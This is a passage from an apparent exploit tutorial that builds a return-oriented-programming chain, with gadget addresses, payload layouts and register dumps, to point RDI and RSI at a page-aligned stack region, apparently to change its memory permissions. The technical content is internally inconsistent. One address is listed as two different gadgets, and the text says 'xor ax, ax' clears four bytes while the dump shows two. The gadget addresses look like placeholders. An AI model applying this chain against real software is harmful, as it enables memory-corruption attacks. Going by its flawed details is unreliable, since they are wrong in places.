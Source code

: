 The pointer into our stack in the %RAX register can now be used to change permissions for the memory map on the stack. For zeroing the last 4 bytes we use a XOR instruction that only applies on the last 4 bytes of the %RAX register:

```python
Current values of the registers:
	%RAX 	0x7fdb97abaaaa
	%RCX 	0x00000039c2222222
	%RDX	0x7fdb97abaab2
	%RSI	0x7fdb97abaaaa
	%RDI	0x49b8970

XOR the last 4 bytes of %RAX
	0x00000039c6666666 : xor ax, ax ; ret

The registers now contain:
	%RAX 	0x7fdb97ab0000
	%RCX 	0x00000039c2222222
	%RDX	0x7fdb97abaab2
	%RSI	0x7fdb97abaaaa
	%RDI	0x49b8970
```

Next step is to put the value from %RAX into %RDI:

```python
The following ROP gadgets are used:
	- 0x00000039c6666666 : pop rdx ; ret
	- 0x00000039c7777777 : xor al, 0x41 ; pop rdi ; ret
	- 0x00000039c8888888 : push rax ; and bh, al ; jmp rdx

The way these instructions interact with each other is similar to the previously explained instructions.

The payload now looks like this:
	[NOP x size][0x00000039c1111111][0x00000039c2222222][0x00000039c3333333][0x00000039c4444444]
	[0x00000039c5555555][0x00000039c6666666][0x00000039c7777777][0x00000039c8888888]

This results in the following register content:
	%RAX 	0x7fdb97ab0000
	%RCX 	0x00000039c2222222
	%RDX	0x00000039c7777777
	%RSI	0x7fdb97abaaaa
	%RDI	0x7fdb97ab0000
```

The %RDI register now contains a memory offset on the stack that is limited to a page boundary.

#### **Step 2**
*The %RSI register must contain the size of the memory region that needs to be changed.*

This is an easy one, just put the size in %RSI.

```python
Only one gadget is used, together with the size.
	- 0x00000039c9999999 : pop rsi ; ret

The size (0xf0000) will be popped from the stack and therefore it has to be added to the payload.

The payload now looks like this:
	[NOP x size][0x00000039c1111111][0x00000039c2222222][0x00000039c3333333][0x00000039c4444444]
	[0x00000039c5555555][0x00000039c6666666][0x00000039c7777777][0x00000039c8888888]
	[0x00000039c9999999][0x00000000000f0000]

The registers now contain:
	%RAX 	0x7fdb97ab0000
	%RCX 	0x00000039c2222222
```